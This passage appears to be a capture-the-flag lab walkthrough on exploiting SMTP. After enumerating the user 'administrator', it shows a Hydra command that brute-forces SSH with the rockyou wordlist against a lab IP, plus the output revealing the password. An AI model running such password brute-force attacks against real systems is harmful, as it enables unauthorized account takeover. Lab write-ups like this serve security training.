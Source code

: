 Okay! Now that's finished, what username is returned?
- **administrator**.



## Exploiting SMTP
#### Recap
Okay, at the end of our Enumeration section we have a few vital pieces of information:
1. A user account name
1. The type of SMTP server and Operating System running.

We know from our port scan, that the only other open port on this machine is an SSH login. We're going to use this information to try and **bruteforce** the password of the SSH login for our user using Hydra.

#### Hydra - for Bruteforcing
here is a wide array of customisability when it comes to using Hydra, and it allows for adaptive password attacks against of many different services, including SSH. 

The syntax for the command we're going to use to find the passwords is this:
```bash
$ hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.50.74 ssh

# hydra	            Runs the hydra tool
#-t 16              Number of parallel connections per target
# -l                [user]	Points to the user who's account you're trying to compromise
# -P                [path to dictionary]	Points to the file containing the list of possible passwords
# -vV               Sets verbose mode to very verbose, shows the login+pass combination for each attempt
# [machine IP]	    The IP address of the target machine
# ssh / protocol    Sets the protocol
```

#### Answer
What is the password of the user we found during our enumeration stage?
```bash
$ hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt.gz 10.10.50.74 ssh  
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-07 03:03:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.50.74:22/
[22][ssh] host: 10.10.50.74   login: administrator   password: alejandro
```
The password is **alejandro**.
